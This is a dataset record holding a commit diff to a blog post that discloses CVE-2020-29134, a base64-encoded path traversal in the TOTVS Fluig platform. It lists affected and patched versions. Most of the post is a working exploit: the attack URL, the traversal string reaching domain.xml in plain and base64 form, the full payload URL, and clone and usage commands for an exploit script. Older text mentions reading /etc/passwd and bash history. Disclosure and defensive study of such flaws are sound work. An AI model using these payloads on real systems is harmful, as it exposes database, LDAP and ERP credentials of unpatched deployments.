

Before and after one commit to Ls4ss/blog, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 1072 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; after the commit the page ends 1866 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-03-04-CVE-2020–29134-Totvs-Fluig-Platform.md

```diff
--- a/_posts/2021-03-04-CVE-2020–29134-Totvs-Fluig-Platform.md
+++ b/_posts/2021-03-04-CVE-2020–29134-Totvs-Fluig-Platform.md
@@ -5,54 +5,60 @@
 categories: CVE
 ---
 
-# Totvs Fluig Platform
+### Totvs Fluig Platform
 
-     Fluig is the productivity and collaboration platform that integrates with the ERP system,
-     and your company's other systems to revolutionize the way you and your team work.
+Fluig is the productivity and collaboration platform that integrates with the ERP system,
+and your company’s other systems to revolutionize the way you and your team work.
 
-# CVE-2020-29134
+### CVE-2020-29134
 
-     The TOTVS Fluig platform allows path traversal via parameter encoded in base64.
-     When exploited, this vulnerability allows the reading of sensitive XML files, which contain
-     data to access the database and, in some cases, LDAP connections and ERP system integrations.
-     In addition, it is also possible to explore system files, such as /etc/passwd and /root/.bash_history
+TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
+When exploited, this vulnerability allows the reading of sensitive XML files,
+which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
 
 #### Versions affecteds
-    --
-    <== Fluig Lake 1.7.0
-    <== Fluig 1.6.5
-    <== Fluig 1.6.4
-    ...
+
+<== Fluig Lake 1.7.0
+<== Fluig 1.6.5
+<== Fluig 1.6.4
+
 #### Patched versions
-     Fluig Lake 1.7.0-210303 (Patched)
-     Fluig 1.6.5-210308 (Patched)
-     Fluig 1.6.4-210308 (Patched)
+
+Fluig Lake 1.7.0-210303 (Patched)
+Fluig 1.6.5-210308 (Patched)
+Fluig 1.6.4-210308 (Patched)
 
 # Building Payload
 
 ![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)
 
 #### Attack Vector
-     http://fluig.host.com/volume/stream/Rmx1aWc=/
+
+http://fluig.host.com/volume/stream/Rmx1aWc=/
+
 #### Path traversal plain text
-     ?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml
+
+?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml
+
 #### Path traversal encoded base64
      P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
+
 #### Payload
-     http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
+
+http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
 
 #### Exploit-DB reference
-     https://www.exploit-db.com/exploits/49622
+https://www.exploit-db.com/exploits/49622
 
 
-# Clone Repository
+##### Clone Repository
 
-     # git clone https://github.com/lucxssouza/CVE-2020-29134.git
-     # cd CVE-2020-29134
-     # chmod +x xfluig.sh
+git clone https://github.com/lucxssouza/CVE-2020-29134.git
+cd CVE-2020-29134
+chmod +x xfluig.sh
 
 # Usage
 
-     Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)
+Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)
 
-     Ex2: ./xfluig.sh http://fluig.host.com:PORT
+Ex2: ./xfluig.sh http://fluig.host.com:PORT
```
